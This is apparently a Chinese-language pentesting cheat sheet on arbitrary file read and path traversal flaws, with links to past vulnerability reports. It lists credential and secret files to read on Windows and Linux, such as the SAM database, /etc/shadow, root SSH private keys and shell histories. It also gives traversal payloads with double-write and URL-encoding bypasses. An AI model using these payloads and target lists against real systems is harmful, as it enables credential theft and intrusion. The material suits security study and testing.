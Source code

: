 # Fileread

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [渗透测试-任意文件读取/下载漏洞](https://mp.weixin.qq.com/s/fpYKgybCQdSd5_AafNvt4w)

**相关案例**
- [京东商城两处任意目录遍历下载漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0214222)
- [2 Path Traversal Cases](https://jlajara.gitlab.io/web/2020/03/29/Path_Traversal.html)
- [电信某分站配置不当导致敏感文件泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-095088)
- [一个任意文件读取漏洞记录](https://toutiao.io/posts/423535/app_preview)
- [南方周末邮件服务器任意文件读取漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-045426)

---

## 利用思路

### windows

**常规配置文件**
```
C:\windows\win.ini                          //可以用来判断是否为windows系统
C:\boot.ini                                 //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml    //IIS 配置文件
C:\Windows\repair\sam                       //存储系统初次安装的密码
C:\Program Files\mysql\my.ini               //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
C:\Windows\php.ini                          //php 配置信息
C:\Windows\my.ini                           //Mysql 配置信息
```

**Windows Search索引文件(需要管理员权限)**

这个文件一般特别大,不是很推荐这种利用方法😅
```
%ProgramData%\Microsoft\Search\Data\Applications\Windows\Windows.edb
```

**日志文件**

%systemroot%\System32\winevt\Logs 目录下
```
Application.evtx
ConnectionInfo.evtx
Error.evtx
HardwareEvents.evtx
Internet Explorer.evtx
Key Management Service.evtx
Media Center.evtx
Microsoft-Windows-API-Tracing%4Operational.evtx
Microsoft-Windows-AppID%4Operational.evtx
Microsoft-Windows-Application Server-Applications%4Admin.evtx
Microsoft-Windows-Application Server-Applications%4Operational.evtx
Microsoft-Windows-Application-Experience%4Problem-Steps-Recorder.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Assistant.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Troubleshooter.evtx
Microsoft-Windows-Application-Experience%4Program-Inventory.evtx
Microsoft-Windows-Application-Experience%4Program-Telemetry.evtx
```

**命令行历史记录**
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### linux

**系统信息**
```
/etc/passwd
/etc/shadow
/etc/hosts
```

**历史记录**
```
/var/lib/mlocate/mlocate.db     # locate命令的索引数据库文件
/root/.bash_history             # bash 历史记录
/root/.mysql_history            # mysql 的 bash 历史记录
/root/.wget-hsts
```

**配置文件**
```
/opt/nginx/conf/nginx.conf      # nginx 的配置文件
/var/www/html/index.html
/etc/redis.conf
/etc/my.cnf
/etc/httpd/conf/httpd.conf      # httpd 的配置文件
```

**软硬件信息/进程信息**
```
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz
/proc/sched_debug   # 提供 cpu 上正在运行的进程信息，可以获得进程的 pid 号，可以配合后面需要 pid的利用
/proc/mounts        # 挂载的文件系统列表
/proc/net/arp       # arp 表，可以获得内网其他机器的地址
/proc/net/route     # 路由表信息
/proc/net/tcp
/proc/net/udp       # 活动连接的信息
/proc/net/fib_trie  # 路由缓存
/proc/version       # 内核版本
/proc/[PID]/cmdline # 可能包含有用的路径信息
/proc/[PID]/environ # 程序运行的环境变量信息，可以用来包含 getshell
/proc/[PID]/cwd     # 当前进程的工作目录
/proc/[PID]/fd/[#]  # 访问檔案描述符
```

**ssh**
```
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/ssh/sshd_config
/var/log/secure
```

**网络配置**
```
/etc/sysconfig/network-scripts/ifcfg-eth0
/etc/syscomfig/network-scripts/ifcfg-eth1
```

**locate.db**

Linux locate 命令用于查找符合条件的文档。一般输入 `locate xxx` 即可查找指定文件

locate 其会去保存文档和目录名称到数据库内(这个数据库中含有本地所有文件信息。Linux 系统自动创建这个数据库，并且每天自动更新一次)，然后查找合乎范本样式条件的文档或目录。一般这个数据库的位置在:
```
/var/lib/mlocate/mlocate.db
```

寻找 mlocate.db 中所有带有 properties 的路径
```bash
locate mlocate.db properties
```

---

## 绕过技巧

### 双写

- `../../../etc/passwd`
- `..././.././etc/passwd`

### 编码

- `../../../etc/passwd`
- `..%2F..%2F..%2Fetc%2Fpasswd`
- `..%252F..%252F..%252Fetc%252Fpasswd`
